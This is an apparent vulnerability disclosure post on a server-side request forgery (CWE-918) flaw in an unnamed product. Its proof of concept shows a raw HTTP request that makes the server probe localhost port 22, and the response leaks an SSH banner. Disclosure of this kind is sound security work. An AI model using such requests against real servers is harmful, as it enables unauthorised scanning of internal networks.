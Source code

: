 
---
layout: post
title:  "Server-side request forgery (SSRF)"
date:   2023-04-05 19:51:02 +0700 
categories: [cve]
---

* CVE ID: awaiting assignment
* CWE ID: CWE-918

... products server-side request forgery

Summary:

... products is vulnerable to server-side request forgery (SSRF). This may allow an unauthenticated attacker to send unauthorized requests from the system, potentially leading to network enumeration or facilitating other attacks.

Product:

...

Version:

...

Proof-of-Concept:

Web server is externally accessible; and permitted to invoke connections to internal hosts. The HTTP GET Request can be abused by unauthenticated attackers to cause the web server to connect to an arbitrary TCP port of an arbitrary host.

Responses returned are fairly verbose and can be used to infer whether a service is listening on the port specified.

Below is an example request to an localhost with open port:

Request:

GET http://localhost:22/ HTTP/1.1
Host: [redacted]
Pragma: no-cache
Cache-Control: no-cache, no-transform
Connection: close

Response:

HTTP/1.1 200 OK
Date: Wed, 12 Oct 2022 01:47:04 GMT
Connection: close
Content-Type: text/plain
Content-Length: 38

SSH-2.0-OpenSSH_5.3Protocol mismatch.
